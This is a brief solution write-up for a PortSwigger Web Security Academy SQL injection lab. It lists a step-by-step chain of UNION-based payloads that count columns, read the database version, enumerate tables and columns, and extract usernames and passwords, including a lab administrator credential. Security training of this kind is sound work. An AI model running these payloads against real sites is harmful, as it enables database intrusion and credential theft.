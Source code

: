 #Lab: SQL injection UNION attack, retrieving multiple values in a single column

#https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column

```bash
GET /filter?category=Gifts'
```
```bash
GET /filter?category=Gifts'--
```
```bash
Gifts' order by 2--
Gifts' order by 3--
```
```bash
Gifts' UNION SELECT 1,'a'--
```
```bash
Gifts' UNION SELECT 1,version()--

# PostgreSQL 12.18 (Ubuntu 12.18-0ubuntu0.20.04.1)
```
```bash
Gifts' UNION SELECT 1,table_name from information_schema.tables--

# users
```
```bash
Gifts' UNION SELECT 1,column_name from information_schema.columns where table_name = 'users'--

# password
# username
```
```bash
GET /filter?category=Gifts' UNION SELECT 1,username || ' '||password from users--

# administrator u66uzwh23pw8ds7y83l7  
```



